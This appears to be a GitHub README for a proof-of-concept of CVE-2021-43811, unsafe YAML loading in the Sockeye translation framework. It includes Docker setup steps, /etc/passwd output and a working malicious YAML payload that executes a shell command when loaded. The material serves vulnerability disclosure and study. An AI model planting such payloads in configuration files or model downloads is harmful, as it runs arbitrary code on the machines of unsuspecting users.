 # CVE-2021-43811
awslabs/sockeye Code injection via unsafe YAML loading CVE-2021-43811

## NVD Description

Sockeye is an open-source sequence-to-sequence framework for Neural Machine Translation built on PyTorch. Sockeye uses YAML to store model and data configurations on disk. Versions below 2.3.24 use unsafe YAML loading, which can be made to execute arbitrary code embedded in config files. An attacker can add malicious code to the config file of a trained model and attempt to convince users to download and run it. If users run the model, the embedded code will run locally. The issue is fixed in version 2.3.24.

## Demo

![cve-2021-43811](https://user-images.githubusercontent.com/56715563/185784647-fc6a885c-3032-487a-aa4f-f1535b669294.gif)


## Set Up

1. Build an image from a Dockerfile

```
docker build -t cve-2021-43811 .
```

2. Run python main.py in a new container

```
docker run -it --rm cve-2021-43811
```

output /etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
-- snip --
```

![output-image](https://user-images.githubusercontent.com/56715563/185784247-d765d388-053c-4784-8c98-65401384f3c2.png)

## PoC Payload

malicious.yml
```
!!python/object/new:type
args: ['z', !!python/tuple [], {'extend': !!python/name:exec }]
listitems: "__import__('os').system('cat /etc/passwd')"
```

## Reference

- https://github.com/awslabs/sockeye/security/advisories/GHSA-ggmr-44cv-24pm
